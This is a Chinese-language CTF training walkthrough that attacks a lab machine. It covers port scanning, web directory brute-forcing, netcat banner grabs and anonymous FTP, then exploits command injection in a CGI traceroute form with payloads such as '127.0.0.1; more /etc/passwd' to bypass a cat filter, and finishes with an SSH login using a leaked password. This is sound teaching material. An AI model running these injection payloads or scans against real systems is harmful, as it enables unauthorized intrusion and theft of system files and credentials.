# 网络安全入门到精通：P32：7.8：CTF夺旗赛实战演练 🚩

在本节课中，我们将学习CTF（Capture The Flag，夺旗赛）的基本概念，并通过一个完整的实战演练，学习如何从目标机器上发现并获取Flag。我们将使用Kali Linux作为攻击机，对一个预设的靶场进行信息收集、服务探测和漏洞利用。

---

## 概述

CTF是一种流行的信息安全竞赛形式。参赛团队通过信息对抗、程序分析等手段，率先从主办方提供的比赛环境中找到特定格式的字符串（即Flag）并提交，从而获得分数。本节课，我们将模拟这一过程，学习从发现目标到获取Flag的完整流程。

---

## CTF简介与实验环境

上一节我们介绍了课程背景，本节中我们来看看具体的实验环境配置。

我们的实验环境包含两台机器：
*   **攻击机**：Kali Linux，IP地址为 `192.168.1.111`。
*   **靶机**：一台Linux系统，IP地址为 `192.168.1.110`。

我们的核心目标是：探测靶机上存储Flag的位置，获取其值并提交。

---

## 第一步：信息探测与端口扫描

拿到靶机IP后，第一步是进行信息探测，了解目标开放了哪些服务。



以下是进行端口扫描的两种常用Nmap命令：





1.  **快速扫描所有端口**：此命令用于快速发现所有开放的端口。
    ```bash
    nmap -p- -T4 192.168.1.110
    ```
    *   `-p-`：扫描所有端口（0-65535）。
    *   `-T4`：使用较快的扫描速度。

2.  **全面扫描与版本探测**：此命令用于获取更详细的服务和系统信息。
    ```bash
    nmap -T4 -A -v 192.168.1.110
    ```
    *   `-A`：启用操作系统检测、版本检测、脚本扫描和路由跟踪。
    *   `-v`：显示详细输出。

**注意**：在实际操作中，两种扫描方式可能发现不同的开放端口，因此建议结合使用以确保信息收集的全面性。

---

## 第二步：Web服务敏感信息探测



对于扫描结果中开放的HTTP服务（如80、9090端口），我们可以使用专门工具进行深度探测。





以下是两个用于探测Web目录和敏感文件的工具：

1.  **使用Nikto扫描Web漏洞**：Nikto是一款Web服务器扫描器，用于查找潜在的危险文件和配置。
    ```bash
    # 扫描80端口（可省略:80）
    nikto -host http://192.168.1.110
    # 扫描非标准端口（如9090）
    nikto -host http://192.168.1.110:9090
    ```



2.  **使用Dirb爆破目录**：Dirb是一个Web内容扫描器，通过字典攻击寻找隐藏的目录和页面。
    ```bash
    # 扫描80端口
    dirb http://192.168.1.110
    # 扫描9090端口
    dirb http://192.168.1.110:9090
    ```



---

## 第三步：分析结果与深入挖掘

在收集到初步信息后，我们需要分析扫描结果，寻找可利用的入口点。

### 1. 探测未知服务的Banner信息

对于Nmap识别为“unknown”的大端口服务（如13337、60000），可以使用Netcat（`nc`）连接并获取其Banner信息，其中可能直接包含Flag。



```bash
# 连接13337端口
nc 192.168.1.110 13337
# 连接60000端口
nc 192.168.1.110 60000
```
*   连接13337端口后，返回的Banner信息中直接包含了第一个Flag。
*   连接60000端口后，获得了一个反向Shell。在此Shell中，使用 `ls` 命令发现 `flag.txt` 文件，使用 `cat flag.txt` 即可获得第二个Flag。



### 2. 检查Web界面与源代码


对于探测到的HTTP服务（如9090端口），直接使用浏览器访问。在页面或查看网页源代码时，可能直接找到Flag。







### 3. 访问敏感目录与文件



根据Dirb的扫描结果，访问发现的敏感目录。例如，访问 `http://192.168.1.110/passwords/` 目录：
*   直接访问 `flag.txt` 文件获得一个Flag。
*   查看 `passwords.html` 页面的源代码，在注释中发现了一个密码提示：`win`。



### 4. 利用FTP匿名登录




扫描结果显示21端口FTP服务允许匿名登录。在浏览器中输入 `ftp://192.168.1.110` 访问，在根目录下发现 `flag.txt` 文件，打开获取另一个Flag。



### 5. 检查Robots.txt文件





访问 `http://192.168.1.110/robots.txt`，发现它列出了几个禁止爬虫访问的目录（如 `/cgi-bin/`）。尝试访问这些目录下的CGI文件（如 `chroot.cgi`），可能发现功能页面。



---

## 第四步：漏洞利用与权限提升

访问 `chroot.cgi` 页面，发现它是一个提供路由追踪功能的输入框。尝试输入 `127.0.0.1` 测试，随后尝试命令注入。

### 1. 发现命令注入漏洞

在输入框中构造Payload，使用分号 `;` 分隔命令：
```
127.0.0.1; id
```
执行后发现返回了当前用户信息（apache用户），证实存在命令注入漏洞。

### 2. 绕过命令限制读取系统文件

尝试读取 `/etc/passwd` 文件获取用户列表，但发现 `cat` 命令被过滤。
```
127.0.0.1; cat /etc/passwd
```
使用功能相近的 `more` 命令进行绕过：
```
127.0.0.1; more /etc/passwd
```
成功读取文件，发现用户 `smer`。

### 3. 利用凭据进行SSH登录

结合之前从源代码中找到的密码提示 `win`，尝试使用 `smer` 用户和 `win` 密码进行SSH登录。扫描发现SSH服务运行在5552端口。
```bash
ssh smer@192.168.1.110 -p 5552
# 输入密码：win
```
登录成功，获得靶机上的一个Shell。

### 4. 在Shell中寻找最终Flag

登录后，在用户目录下使用 `ls` 发现 `flag.txt` 文件。同样，`cat` 命令被限制，使用 `more` 命令查看。
```bash
pwd
ls
more flag.txt
```
成功获取到最终的Flag值。

---

## 总结与核心要点

本节课我们一起学习了CTF夺旗赛的基本流程和实战技巧。以下是需要牢记的核心要点：

1.  **全面探测**：对于未知服务端口，务必使用 `nc` 等工具获取Banner信息，其中可能直接暴露Flag。
2.  **灵活绕过**：当遇到命令或字符过滤时，尝试使用功能相近的替代方案。例如，用 `more`、`less`、`head` 等命令替代被过滤的 `cat` 命令。
3.  **穷尽攻击面**：不要放过任何一项服务。本次演练中，我们利用了FTP、SSH、HTTP（80/9090端口）、以及各种未知端口（13337, 60000, 5552）的服务。在真实比赛中，每一个开放端口都可能成为突破口。



在CTF比赛和实际的安全评估中，细心、耐心和全面的信息收集是成功的关键。希望本教程能帮助你建立起基础的渗透测试思维。